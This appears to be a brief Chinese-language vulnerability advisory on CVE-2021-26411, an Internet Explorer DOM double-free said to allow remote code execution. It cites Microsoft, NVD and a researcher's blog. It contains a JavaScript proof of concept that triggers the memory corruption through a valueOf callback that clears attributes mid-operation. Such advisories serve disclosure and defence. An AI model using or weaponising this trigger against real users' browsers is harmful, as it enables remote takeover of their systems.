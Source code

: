 # Internet Explorer内存损坏漏洞（CVE-2021-26411）


Interne Explorer在处理DOM对象时，存在一处double free漏洞，攻击者可通过诱导用户点击恶意链接或文件来利用此漏洞，此漏洞可导致远程代码执行，从而使攻击者控制用户系统。该漏洞细节已公开，并检测到在野利用。

漏洞详情可以参考：https://iamelli0t.github.io/2021/03/12/CVE-2021-26411.html

PoC：


```js
<script>
var elem = document.createElement('xxx'); 
var attr1 = document.createAttribute('yyy'); 
var attr2 = document.createAttribute('zzz'); 

var obj = {};
obj.valueOf = function() {
        elem.clearAttributes();
        return 0x1337;
};

attr1.nodeValue = obj;
attr2.nodeValue = 123;
elem.setAttributeNode(attr1);
elem.setAttributeNode(attr2);
elem.removeAttributeNode(attr1); 
</script>
```

ref：

* https://msrc.microsoft.com/updat ... lity/CVE-2021-26411
* https://nvd.nist.gov/vuln/detail/CVE-2021-26411
* https://iamelli0t.github.io/2021/03/12/CVE-2021-26411.html
